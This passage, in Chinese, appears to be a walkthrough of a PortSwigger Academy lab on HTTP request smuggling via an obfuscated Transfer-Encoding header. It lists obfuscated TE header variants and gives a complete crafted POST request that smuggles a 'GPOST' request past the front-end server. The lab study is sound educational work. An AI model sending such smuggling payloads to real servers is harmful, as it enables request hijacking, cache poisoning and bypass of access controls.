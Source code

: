 ```bash
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

这些技术中的每一种都与 HTTP 规范有细微的不同，实现协议规范的真实世界代码很少绝对精确地遵守它并且不同的实现容忍与规范不同的变化是很常见的，根据是前端服务器还是后端服务器可以被诱导不处理混淆的传输编码报头，攻击的剩余部分将采取与 CL 相同的形式，TE 还是 TE  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)  
解题过程：  
Step 1：访问上面的靶场地址并直接点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-b10ea76e5c7589c6683bbf05a23b5a9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154312-bf4f3d18-aa0b-1.png)  
Step 2：抓取数据包并构造如下请求走私的攻击请求

```bash
POST / HTTP/1.1
Host: 0a60007404aa738e80bff93900e000a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[![](assets/1704418275-3aeedd4f1dd9a5c629354bd23f0e9637.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154340-d02af71c-aa0b-1.png)  
第二次请求回显结果提示——"Unrecognized method GPOST"，至于原理可以看上面，这里不再赘述，本实验就是结合上面的理论而构造的，在现实世界中可能或多或少也会有此类情况，但是少  
[![](assets/1704418275-bdca6275ec62e5878965e32004bb4883.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154358-dac6a130-aa0b-1.png)  
Step 3：刷新页面完成解题  
[![](assets/1704418275-0d2465a0d2c5a42e366feb97fd403df6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154416-e57f44ce-aa0b-1.png)
